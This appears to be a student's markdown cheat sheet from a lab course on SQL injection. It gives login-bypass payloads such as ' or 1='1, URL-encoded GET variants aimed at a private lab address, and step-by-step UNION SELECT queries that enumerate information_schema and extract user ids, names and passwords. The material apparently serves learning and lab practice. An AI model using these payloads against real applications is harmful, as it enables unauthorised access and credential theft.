     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
## Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

-----------------------------------[column],[column],[column]----------------------[database],[table]------------
    
    mysql
    show databases ;
    use information_schema ;
    show tables from information_schema ;
    show columns from columns ;
    
    SELECT table_schema FROM information_schema.columns ;
    SELECT table_name FROM information_schema.columns ;
    SELECT column_name FROM information_schema.columns ;
    
    SELECT table_schema,table_name,column_name FROM information_schema.columns ;
    
    ##Examples:
    SELECT x,x,x FROM session.xxx
    SELECT name,cost,year FROM session.car ;
    SELECT id,name,pass FROM session.user ;    
_________________________________________________________________________________________________________________
## SQL Injection: Post Method
### 1-Identify Vulnerable Field.
#### The one that doesn't error out.
    Ford ' or 1='1
    Dodge ' or 1='1
    Honda ' or 1='1
    Audi ' or 1='1

### 2-Identify number of columns.
#### So you can find which fields need placeholders.
    Audi ' UNION SELECT 1,2,3,4 #
    Audi ' UNION SELECT 1,2,3,4,5 #
    
### 3-Modify Goldent Statement to include all information.
#### UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
    Audi ' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #

### 4-Craft the queries.
#### Pulling custom user created data from the database.
    Audi ' UNION SELECT tireid,2,name,size,cost FROM session.Tires #
    Audi ' UNION SELECT cost,2,size,name,5 FROM session.Tires #
_________________________________________________________________________________________________________________
## SQL Injection: Get Method (URL bar)
### Identify Vulnerable Field.
#### Make selection, pass a true statement. OR 1=1
    10.50.33.78/uniondemo.php?Selection=1 OR 1=1
    10.50.33.78/uniondemo.php?Selection=2 OR 1=1
    10.50.33.78/uniondemo.php?Selection=3 OR 1=1
    10.50.33.78/uniondemo.php?Selection=4 OR 1=1
    10.50.33.78/uniondemo.php?Selection=5 OR 1=1

### Identify number of columns.
#### Display table is out of order. 1,3,2
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT 1,2,3

### Golden Statement from before.
#### Alter the options in the middle to match the table thats out of order.
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
    
### Modify the Goldent Statement.
#### Now able to alter options to pull back specific data.
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT id,pass,name FROM session.user
_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________
